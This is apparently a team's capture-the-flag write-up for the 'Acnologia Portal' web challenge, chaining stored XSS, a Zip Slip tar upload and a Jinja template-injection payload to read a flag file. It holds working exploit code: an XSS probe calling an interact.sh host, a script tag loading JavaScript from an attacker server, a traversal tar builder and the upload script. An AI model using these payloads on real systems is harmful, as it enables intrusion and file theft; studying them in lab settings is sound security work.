 # Acnologia Portal
Acnologia Portal is another medium web challenge solved by our team during HTB Cyber Apocalypse 2022. It starts with the login page, where in addition we can create our own new account. 

![login.png](login.png)

After successful login, we are redirected to the `/dashboard` page, where is a list of firmwere. 

![list.png](list.png)

Main function of the application is to report a bug to the particular firmware, then the bug will be reviewed by the `administrator`. So our first thought was to try XSS.

## XSS

We checked for XSS by trying to send a request to the webhook and it worked!
```
<img src="http://c9zv8s32vtc0000byq1ggfbg1fwyyyyyn.interact.sh">
```

## Source Code

The flag is hidden in the file `flag.txt` so there is no way by using only XSS to end the challnege. Source code was given, so let's see what other functions we have.

The admin's behaviour is described in `bot.py` file, its his purpose is only review our bug report. More intrestnig part is in `routes.py`, there are 2 functions where admin's privileges are needed - `review_report()` and `firmware_update()`. The second one caught your attention, the functionality is described in detail in `util.py`.

```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```
It seems an administrator can upload a tar file to be unpacked to the server, which is an perfect scenario for the `Zip Slip` vulnerability.

## Zip Slip

So the idea is that XSS does the tar file upload and perform the [Zip Slip attack](https://snyk.io/research/zip-slip-vulnerability). I have checked after some code modifiaction if Zip Slip works locally (commented the `@is_admin()` lines) and I was able to replace original files.

Best files to replace in our opinion are the templates, so we have picked `register.html`, and after of tar file upload, `/register` page is going to read the flag.

```python
import tarfile    
import io            
import requests
import time
    
fname = "../../../../../../../../../app/application/templates/register.html"                    
data = b"""                                                                           
{{ get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read() }}
"""                                       
source = io.BytesIO(initial_bytes=data)                                                  

fh = io.BytesIO()                           
with tarfile.open(fileobj=fh, mode='w:gz') as tar:
    info = tarfile.TarInfo(fname)   
    info.size = len(data)
    info.mtime = time.time()            
    tar.addfile(info, source)                                                                                   

with open('test.tar.gz', 'wb') as f:
    f.write(fh.getvalue())
    
f.close()
```

## XSS payload
After some time digging through google we stumble upon this [article](https://www.dubget.com/file-upload-via-xss.html). So we gracefully stole that code and move one to the exploitation
```javascript
//Source: https://stackoverflow.com/a/20151856
//Author: Bacher
function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

//File contents encoded to Base64
var b64file = "base64 encoded tar";

//Create a Blob object
var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

//Append Blob to FormData
var formData = new FormData();
formData.append('Plugin', blob,'file.tar.gz');

//Send FormData to the server via XMLHttpRequest
var url = 'http://webapp/upload';
var request = new XMLHttpRequest();
request.open('POST', url);
request.send(formData);
```

## Exploit chain
So whole idea is login, then use XSS to deliver malicious `tar` file (in context of admin user). Crafted `tar` file overwrite one of the template with `SSTI` payload, navigate to that overwritten template and read the flag.

### First step 
Generating malicious `tar` file and encoding it with `base64`.
```bash
cat test.tar.gz | base64 -w0
H4sIAHkwjmIC/+3Vu2rDMBQGYM15CpEpWXSPnQ6Fjh37BkJpTh2BfMFSwBDy7rXp0CmQoenQ/h8SOhIcNP2SkEK+vIXplcKRRvYQ6sutVSlrv+vlXCujNeMT+wXnXMI4X8/+J1PztsSWnnW1s26/q/ZPwtRVVdcrBn+fEPLWCMOwzBTfQ4l9Jwu1QwqFshypibnQKE6lTfflv3LuZv6NdUw746yzSteaKaO0U4wr5P/h+I9aXS68oeI/UsgnOvqWcg4NZeF9k/pDSNn7uT6cYyqxWzb9QN1mLeeGRpSprLdinH+izZZfr3iAAAAAAAAAAAAAAAAAAAAAAO7wCXSfXWoAKAAA 
```
### Second step
Now we need to trigger the XSS vulnerability and to do that we used simple script
```python
import requests
#url = "http://178.62.119.24:32530"
url = "http://172.17.0.2:1337"
proxies = {"http" : "127.0.0.1:8080"}
header = {"Content-Type": "application/json"}
s = requests.Session()
register = s.post(url=url + "/api/register", data='{"username":"test", "password":"test"}', headers=header, proxies=proxies)
login = s.post(url=url + "/api/login", data='{"username":"test", "password":"test"}', headers=header)
payload = '<script src=\'http://172.17.0.1:8000/asdf.js\'></script>'
report = s.post(url=url + "/api/firmware/report", data='{"module_id":"1","issue":"' + payload + '"}', headers=header, proxies=proxies)
print(report.text)
```
The payload here is loading the `asdf.js` file and executing it. Content of this file is
```javascript
//Source: https://stackoverflow.com/a/20151856
//Author: Bacher
function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

//File contents encoded to Base64
var b64file = "H4sIAHkwjmIC/+3Vu2rDMBQGYM15CpEpWXSPnQ6Fjh37BkJpTh2BfMFSwBDy7rXp0CmQoenQ/h8SOhIcNP2SkEK+vIXplcKRRvYQ6sutVSlrv+vlXCujNeMT+wXnXMI4X8/+J1PztsSWnnW1s26/q/ZPwtRVVdcrBn+fEPLWCMOwzBTfQ4l9Jwu1QwqFshypibnQKE6lTfflv3LuZv6NdUw746yzSteaKaO0U4wr5P/h+I9aXS68oeI/UsgnOvqWcg4NZeF9k/pDSNn7uT6cYyqxWzb9QN1mLeeGRpSprLdinH+izZZfr3iAAAAAAAAAAAAAAAAAAAAAAO7wCXSfXWoAKAAA";

//Create a Blob object
var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

//Append Blob to FormData
var formData = new FormData();
formData.append('file', blob,'file.tar.gz');

//Send FormData to the server via XMLHttpRequest
var url = '/api/firmware/upload';
var request = new XMLHttpRequest();
request.open('POST', url);
request.withCredentials = true;
request.send(formData);
```
After running python script that trigger XSS vulnerability, our local server got hit with request of `asdf.js`
![request.png](request.png)
After that if everything went smooth `register.html` should be replaced with content of `flag.txt` file.
![flag.png](flag.png)